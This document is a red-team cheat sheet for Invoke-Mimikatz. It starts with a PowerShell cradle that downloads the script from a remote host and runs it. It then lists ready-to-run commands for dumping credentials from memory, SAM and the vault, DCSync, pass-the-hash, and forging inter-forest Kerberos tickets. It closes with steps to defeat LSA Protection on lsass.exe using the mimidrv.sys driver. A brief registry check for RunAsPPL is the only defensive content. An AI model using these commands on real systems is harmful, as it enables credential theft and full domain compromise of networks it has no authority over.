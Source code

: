 ```yaml
---
date: 
tags:
---
```


```table-of-contents
```

**GitHub:** [https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1)

## Dump Credentials

```bash
# Download and execute in cradle
IEX (New-Object System.Net.Webclient).DownloadString('https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1')
 
 #Dump creds from memory
Invoke-Mimikatz -DumpCreds

# DCSync Attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump local passwords
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

# Dump Credential Vault
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'

# Dump credentials on remote systems
Invoke-Mimikatz -DumpCreds -ComputerName @("WS01","WS02")
```

## Dump Domain Credentials

```bash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## Spawn PowerShell (with Compromised NTLM hash)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:DomainAdmin /domain:Security.local /ntlm:b38ff50264b7458734d82c69794a4d8 /run:powershell.exe"'
```

## Forge Inter-domain Trust Ticket

```powershell
# Obtain trust key between current domain and external domain
Invoke-Mimikatz -Command '"lsadump::trust /patch"'

# An inter-forest TGT can be forged
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:Security.local /sid:S-1-5-21-1874506000-3219952063-538504511 /rc4:815720462a1b48256f16740b70356b7f /service:krbtgt /target:Vault.local /ticket:C:\AD\trust_forest_tkt.kirbi"'
```

## Over Pass the Hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

## Protection Bypass

The below image represents an attempt to access the lsass.exe process and extract clear text passwords and run a skeleton key attack. As we can see this has not been successful since applying the registry key change mentioned in the mitigation section for LSA Protection.

![](<../../.gitbook/assets/image (1988).png>)

We can check if the LSA Protection RunAsPPL key exists by querying the registry to confirm the LSA protection is in place.

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL"
# Value 0x1 means LSA Protection is enabled
```

This can be bypassed by utilizing the `mimidrv.sys` driver file which is included as a separate file with mimikatz.

{% hint style="info" %}
The mimidrv.sys driver file needs to exists in the same directory as mimikatz.exe.
{% endhint %}

The driver can be loaded by running the command `!+` in `Mimikatz`. After doing so the following command can be execute to protect the `mimikatz.exe` process.

```bash
!processProtect /process:mimikatz.exe
```

The same command with the `/remove` flag can be used to strip the process protection from a process such as `lsass.exe`

```bash
!processprotect /process:lsass.exe /remove
```

From here we should be free to perform actions against LSASS and dump credentials from it.

```bash
mimikatz.exe sekurlsa::logonpasswords
```
